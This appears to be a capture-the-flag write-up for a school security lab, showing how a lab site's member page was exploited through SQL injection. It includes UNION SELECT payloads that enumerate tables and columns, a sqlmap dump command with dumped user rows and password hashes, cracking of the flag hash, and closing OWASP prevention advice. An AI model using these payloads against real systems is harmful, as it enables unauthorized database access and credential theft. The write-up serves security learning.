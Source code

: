 [README.md](../../../README.md)
# SQL Injection Member page
Page: http://10.13.200.53/?page=member

WAPITI SCAN reveal this error:
```
Vulnerability found in /index.php
Description HTTP Request cURL command line
Blind SQL vulnerability via injection in the parameter id
GET /index.php?page=member&id=sleep%287%29%231&Submit=Submit HTTP/1.1
Host: 10.13.200.53
Referer: http://10.13.200.53/index.php?page=member
curl "http://10.13.200.53/index.php?page=member&id=sleep%287%29%231&Submit=Submit" -e "http://10.13.200.53/index.php?page=member"
```
Cybersecurity piscine script also

## SQL
Basic SQL injection test:

`1 == 1`

**Result**: `You have an error sin your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '= 1' at line 1`

`1 UNION SELECT 1,2`
**Result**: 
```
ID: 1 UNION SELECT 1,2 
First name: one
Surname : me
ID: 1 UNION SELECT 1,2 
First name: 1
Surname : 2
```

**Database name:**
```
ID: 0 UNION SELECT 1,database()
First name: 1
Surname : Member_Sql_Injection
```

**Database version:**
```
ID: 1 UNION SELECT 1,@@version 
First name: 1
Surname : 5.5.64-MariaDB-1ubuntu0.14.04.1
```

**Table name:**
`0 UNION SELECT 1, TABLE_NAME FROM information_schema.TABLES `

RESULTS:
 - CHARACTER_SETS
...
 - db_default
 - users
 - guestbook
 - list_images
 - vote_dbs

 **Column names:**
 - CHARACTER_SET_NAME
...
 - username
 - password
 - user_id
 - first_name
 - last_name
 - town
 - country
 - planet
 - Commentaire
 - countersign
 - id_comment
 - url
 - title
 - id_vote
 - vote
 - nb_vote
 - subject

**We can use the concat() method to see extra fields:**
`0 UNION select 1,concat(town) from users`

For the user with the id 5: 
    last_name = "GetThe", 
    first_name = 'falg' ,
    town = '42', 
    country = '42', 
    planet = '42', 
    Commentaire= "Decrypt this password -> then lower all the char. Sh256 on it and it's good!",
    countersign = '5ff9d0165b4f92b14994e5c685cdce28'


using this website: [Hash Function (+Salt) Decrypter - Unhash Password - Online Decoder](https://www.dcode.fr/hash-function)
The decrypted hash md5 give: *FortyTwo*

If we encrypt `fortytwo` with SHA256 we have: `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`

### Sqlmap tool
`sqlmap -u "http://192.168.2.128/?page=member&id=1&Submit=Submit#" --dump -T users`

```
Database: Member_Sql_Injection
Table: users
[4 entries]
+-------------------------------------------------------------------------------------------------------------------------------------------+----------------------------------+
| user_id | town     | planet | country  | last_name | first_name | Commentaire                               | countersign                      |
+-------------------------------------------------------------------------------------------------------------------------------------------+----------------------------------+
| 1       | Paris    | EARTH  | France   | me        | one        | Je pense, donc je suis                               | 2b3366bcfd44f540e630d4dc2b9b06d9 |
| 2       | Helsinki | Earth  | Finlande | me        | two        | Aamu on iltaa viisaampi.                               | 60e9032c586fb422e2c16dee6286cf10 |
| 3       | Dublin   | Earth  | Irlande  | me        | three      | Dublin is a city of stories and ecrets.                                      | e083b24a01c483437bcf4a9eea7c1b4d |
| 5       | 42       | 42     | 42       | GetThe    | Flag       | Decrypt this password -> then lower all the char. Sh256 on it and it's good ! | 5ff9d0165b4f92b14994e5c685cdce28 |
+-------------------------------------------------------------------------------------------------------------------------------------------+----------------------------------+
```

## Prevention 
-> [SQL Injection Prevention - OWASP Cheat Sheet Series](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
### Client Side (JQUERY)
- Input sanitization, before sending any data to the server
- Use input masks to restrict user input to specific formats.

### Server side (PHP)
- Use ORM
- Input validation and sanitization with php functions like:
    - `filter_var()`
    - `htmlspecialchars()`

---

Do *not* concatenate strings into queries in the stored procedure, or use 'exec', 'exec immediate', or equivalent functionality!

Do not create dynamic SQL queries using simple string concatenation.

Escape all data received from the client.

Apply an 'allow list' of allowed characters, or a 'deny list' of disallowed characters in user input.

Apply the principle of least privilege by using the least privileged database user possible.

In particular, avoid using the 'sa' or 'db-owner' database users. This does not eliminate SQL injection, but minimizes its impact.

Grant the minimum database access that is necessary for the application.
